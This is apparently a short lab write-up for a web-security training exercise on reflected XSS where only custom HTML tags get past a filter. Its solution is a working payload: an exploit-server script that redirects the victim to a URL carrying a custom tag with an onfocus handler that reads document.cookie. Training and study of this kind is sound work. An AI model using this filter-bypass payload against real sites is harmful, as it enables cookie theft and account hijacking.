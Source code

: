 # Lab: Reflected XSS into HTML context with all tags blocked except custom ones

## Lab Description

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/64f42d85-2e30-4cc4-81ef-b132d980725b)

## Solution

Go to exploit server and in body section give
`<script>
location = 'https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>`
Then click to **Deliver exploit to victim** to finish the lab.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/02e36874-bd14-4bb8-a59d-b5ded10873d5)
